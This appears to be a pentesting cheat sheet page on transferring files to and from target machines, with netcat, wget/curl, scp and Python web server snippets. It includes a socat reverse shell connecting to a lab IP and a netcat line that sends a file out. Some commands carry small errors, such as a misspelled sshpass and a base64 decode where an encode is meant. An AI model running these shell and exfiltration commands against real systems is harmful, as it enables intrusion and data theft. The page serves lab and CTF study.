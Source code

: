 ```yaml
---
description: Listeners and binaries
icon: person-to-portal
---
```


# File Transfer

{% tabs %}
{% tab title="Python Web Server" %}
{% code title="Host" %}
```sh
python3 -m http.server
```
{% endcode %}

{% code title="Client" %}
```sh
curl -o IP:Port/file
wget <ip>/<archivo>
```
{% endcode %}
{% endtab %}

{% tab title="Netcat" %}
{% code title="Client" %}
```sh
nc <Target_IP> <port> < file
```
{% endcode %}

{% code title="Host" %}
```sh
nc -lvp <Local_IP> > file
```
{% endcode %}

{% code title="" %}
```sh
cat <file> | nc Target_IP 443
```
{% endcode %}
{% endtab %}

{% tab title="Apache" %}
```
cp archivo.txt /var/www/html
```
{% endtab %}

{% tab title="SSH" %}
{% code title="Scapy" %}
```sh
shpass -p <password> scp <filename> admin@2million.htb:/tmp/
```
{% endcode %}
{% endtab %}

{% tab title="Socat" %}
{% code title="Listener" %}
```sh
socat file:`tty`,raw,echo=0 tcp-listen:4444
```
{% endcode %}

{% code title="Target Machine" %}
```
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
```
{% endcode %}
{% endtab %}
{% endtabs %}

{% hint style="warning" %}
* <mark style="color:purple;">Check hashes to avoid file corruption</mark>

```sh
md5sum <file>
```

* <mark style="color:purple;">Using</mark> <mark style="color:orange;">**`base64`**</mark> <mark style="color:purple;">help to keep file integrity</mark>

{% code title="Pipe text in to a file" %}
```sh
echo "texto_base_64" | base64 -d > <file>
```
{% endcode %}

{% code title="Pipe file in to base64" %}
```sh
cat <file> | base64 -d > <file>
```
{% endcode %}
{% endhint %}

### <mark style="color:purple;">**Useful Binaries:**</mark>

{% embed url="https://github.com/andrew-d/static-binaries" %}

